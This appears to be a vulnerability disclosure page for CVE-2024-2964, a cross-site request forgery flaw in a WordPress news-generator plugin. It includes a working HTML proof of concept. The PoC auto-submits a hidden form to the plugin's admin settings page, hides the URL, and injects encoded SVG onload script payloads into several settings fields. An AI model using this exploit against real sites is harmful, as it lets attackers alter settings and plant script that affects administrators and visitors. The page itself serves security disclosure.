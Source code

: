 ```yaml
---
layout: page
title: CVE-2024-2964
subtitle: Pocket News Generator <= 0.2.0 - Cross-Site Request Forgery to Settings Update
---
```

## Description
The Pocket News Generator plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 0.2.0. This is due to missing or incorrect nonce validation on the option_page() function. This makes it possible for unauthenticated attackers to update the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 5.4 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N)

## Affected Version
    <= 0.2.0

## PoC :
```
<html>
  <!-- eneriiii<3-->
  <body>
    <form action="http://[ASSETS]/wp-admin/options-general.php?page=pocket_news_generator_options_page" method="POST">
      <input type="hidden" name="consumer&#95;key" value="eneriiiiiiiiiiii&lt;3&lt;&#33;&#45;&#45;&gt;&lt;Svg&#32;OnLoad&#61;&#40;confirm&#41;&#40;666&#41;&#45;&#45;&gt;&apos;&gt;" />
      <input type="hidden" name="access&#95;token" value="eneriiiiiiiiiiii&lt;3&lt;&#33;&#45;&#45;&gt;&lt;Svg&#32;OnLoad&#61;&#40;confirm&#41;&#40;666&#41;&#45;&#45;&gt;&apos;&gt;" />
      <input type="hidden" name="format" value="eneriiiiiiiiiiii&lt;3&lt;&#33;&#45;&#45;&gt;&lt;Svg&#32;OnLoad&#61;&#40;confirm&#41;&#40;666&#41;&#45;&#45;&gt;&apos;&gt;" />
      <input type="hidden" name="action" value="register" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/browser/pocket-news-generator/trunk/pocket-news-generator.php#L77
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/pocket-news-generator/pocket-news-generator-020-cross-site-request-forgery-to-settings-update
- https://www.cve.org/CVERecord?id=CVE-2024-2964


